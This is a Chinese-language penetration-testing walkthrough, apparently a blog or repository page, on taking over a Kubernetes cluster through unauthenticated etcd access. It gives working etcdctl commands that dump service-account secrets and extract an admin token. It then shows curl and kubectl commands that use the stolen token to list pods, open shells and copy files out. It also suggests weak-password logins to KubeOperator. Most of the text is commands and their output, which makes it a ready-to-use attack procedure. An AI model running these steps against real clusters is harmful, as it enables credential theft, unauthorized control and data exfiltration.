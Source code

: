 在安装完 K8s 后，默认会安装 etcd 组件，etcd 是一个高可用的 key-value 数据库，它为 k8s 集群提供底层数据存储，保存了整个集群的状态。大多数情形下，数据库中的内容没有加密，因此如果黑客拿下 etcd，就意味着能控制整个 K8s 集群。

**etcd 未授权访问**

如果目标在启动 etcd 的时候没有开启证书认证选项，且 2379 端口直接对外开放的话，则存在 etcd 未授权访问漏洞。

访问目标的 <https://IP:2379/version> 或 <https://IP:2379/v2/keys>，看看是否存在未授权访问。如果显示如下，则证明存在未授权访问。

![image-20231222085653333](https://s2.loli.net/2024/01/25/etuyjGV6RZ5xdS8.png)

### 1.查找token

需要使用到 etcd 命令行连接工具：[etcdctl](https://etcd.io/docs/v3.4/install/)

由于 Service Account 关联了一套凭证，存储在 Secret 中。因此我们可以过滤 Secret，查找具有高权限的 Secret，然后获得其 token 接管 K8s 集群

查找所有的secret
===========

ETCDCTL\_API\\=3 ./etcdctl --insecure-transport\\=false --insecure-skip-tls-verify --endpoints\\=<https://172.16.200.70:2379/> get / --prefix --keys-only|sort|uniq| grep secret

![image-20231222090234172](https://s2.loli.net/2024/01/25/Hej8XtLJ3vnB4MW.png)

从返回的数据中挑选出一个具有高权限的 role 并读取其 token，以 /registry/secrets/kube-system/dashboard-admin-token-c7spp 为例，其中 kube-system 代表 namespace、dashboard-admin 是 clusterrole

查找指定secret保存的证书和token
=====================

ETCDCTL\_API\\=3 ./etcdctl --insecure-transport\\=false --insecure-skip-tls-verify --endpoints\\=<https://172.16.200.70:2379/> get /registry/secrets/kube-system/dashboard-admin-token-c7spp

![image-20231222090606284](https://s2.loli.net/2024/01/25/p4IxWrZoeTO2Klz.png)

复制 token，最后的 token 为 token? 和 #kubernetes.io/service-account-token 之间的部分

![image-20231222112025096](https://s2.loli.net/2024/01/25/vCPtVz31HEs9yj6.png)

如果机器上安装了 KubeOperator 存在弱口令，登录之后可以在集群中获取管控 token

![image-20231222113634553](https://s2.loli.net/2024/01/25/zo3b5ndCps2J7gB.png)

如果不知道 server api 可以通过 webkubectl 获取

kubectl cluster-info

![image-20231222113822617](https://s2.loli.net/2024/01/25/SElWc4ufJhzY9pa.png)

### 2.验证token有效性

curl --header "Authorization: Token" -X GET <https://172.16.200.70:6443/api> -k

### 3.使用 kebuctl 去执行命令

这里直接指定 token 去执行命令，或者可以通过制作配置文件指定配置文件来执行但是比较复杂

kubectl --insecure-skip-tls-verify -s <https://127.0.0.1:6443/> --token\\="\[ey...\]" -n kube-system get pods

![image-20231222112738092](https://s2.loli.net/2024/01/25/nrod5gSDMm1fuzb.png)

kebuctl 常用命令

\# 查看所有的资源信息

kubectl get all

kubectl get --all-namespaces

\# 获取pods列表

kubectl get pods -o wide --all-namespaces

-n 指定命令空间

-o wide 展示详细信息

\# 执行命令

kubectl exec -it podsname -n namespace -- command

\-- bash 进入 shell

\# 下载文件

kubectl cp -n 命名空间 pod名字:/data/1.hprof(在pod中要下载文件的路径) (本地保存文件的路径)

学习文章

- [K8s集群安全攻防(上)](https://xz.aliyun.com/t/12921#toc-0)
- [K8s集群安全攻防(下)](https://xz.aliyun.com/t/12930)<https://xz.aliyun.com/t/12930>